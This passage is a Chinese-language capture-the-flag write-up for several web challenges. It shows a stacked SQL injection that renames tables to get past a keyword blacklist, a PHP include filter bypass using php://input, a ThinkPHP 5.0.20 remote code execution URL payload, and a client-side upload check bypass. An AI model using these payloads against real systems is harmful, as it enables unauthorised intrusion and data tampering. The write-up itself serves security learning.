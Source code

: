 
很明显，`words`表具有对应关系，推测是本题使用的默认表：传入的`inject`参数赋值给字段`id`，通过`id`查询对应的`data`值。

禁用列表为：`select|update|delete|drop|insert|where`

没有禁用：`rename|alert`

故而可以将words表偷梁换柱：将`words`更名为`words2`，将数字表更名为`words`，将原数字表的字段名flag改为id。

```mysql
1';rename tables `words` to `words2`;
rename tables `1919810931114514` to `words`; 
alter table `words` change `flag` `id` varchar(99);#
```

由于不知道flag具体值（当然不知道啊），使用`1' or 1=1`确保判断条件为真，得到flag。



## Web_php_include

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {  
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

`strstr`函数对大小写敏感。使用`php://input`与`POST`方法配合在请求体中写入指令获得信息。



## php_rce

Vulhub：https://vulhub.org/#/environments/thinkphp/5-rce/

环境：PHP V7.2.5  ThinkPHP V5.0.20

没有什么提示，打开robots.txt也没有，再回看标题RCE，上网找此版本，找到Vulhub POC。

`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`

flag在根目录。



## upload1

JS检验文件格式，直接关闭Javascript即可。

